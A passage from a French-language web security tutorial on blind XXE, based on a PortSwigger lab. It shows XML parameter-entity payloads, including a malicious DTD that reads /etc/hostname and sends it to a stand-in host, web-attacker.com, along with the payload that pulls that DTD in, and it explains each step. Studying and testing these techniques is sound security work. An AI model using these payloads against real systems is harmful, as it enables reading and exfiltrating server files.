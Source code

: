En utilisant la **technique précédemment commentée**, vous pouvez amener le serveur à accéder à un serveur que vous contrôlez pour montrer qu'il est vulnérable. Mais, si cela ne fonctionne pas, c'est peut-être parce que **les entités XML ne sont pas autorisées**, dans ce cas, vous pourriez essayer d'utiliser **les entités de paramètres XML** :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
### "Blind" SSRF - Exfiltrer des données hors bande

**Dans ce cas, nous allons faire en sorte que le serveur charge un nouveau DTD avec un payload malveillant qui enverra le contenu d'un fichier via une requête HTTP (pour les fichiers multi-lignes, vous pourriez essayer de l'exfiltrer via \_ftp://**\_ en utilisant ce serveur de base par exemple [**xxe-ftp-server.rb**](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)**). Cette explication est basée sur** [**Portswiggers lab ici**](https://portswigger.net/web-security/xxe/blind)**.**

Dans le DTD malveillant donné, une série d'étapes sont effectuées pour exfiltrer des données :

### Exemple de DTD malveillant :

La structure est la suivante :
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Les étapes exécutées par ce DTD incluent :

1. **Définition des entités de paramètre :**
- Une entité de paramètre XML, `%file`, est créée, lisant le contenu du fichier `/etc/hostname`.
- Une autre entité de paramètre XML, `%eval`, est définie. Elle déclare dynamiquement une nouvelle entité de paramètre XML, `%exfiltrate`. L'entité `%exfiltrate` est configurée pour effectuer une requête HTTP vers le serveur de l'attaquant, passant le contenu de l'entité `%file` dans la chaîne de requête de l'URL.
2. **Exécution des entités :**
- L'entité `%eval` est utilisée, conduisant à l'exécution de la déclaration dynamique de l'entité `%exfiltrate`.
- L'entité `%exfiltrate` est ensuite utilisée, déclenchant une requête HTTP vers l'URL spécifiée avec le contenu du fichier.

L'attaquant héberge ce DTD malveillant sur un serveur sous son contrôle, généralement à une URL comme `http://web-attacker.com/malicious.dtd`.

**Charge utile XXE :** Pour exploiter une application vulnérable, l'attaquant envoie une charge utile XXE :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
Ce payload définit une entité de paramètre XML `%xxe` et l'incorpore dans le DTD. Lorsqu'il est traité par un parseur XML, ce payload récupère le DTD externe depuis le serveur de l'attaquant. Le parseur interprète ensuite le DTD en ligne, exécutant les étapes décrites dans le DTD malveillant et conduisant à l'exfiltration du fichier `/etc/hostname` vers le serveur de l'attaquant.
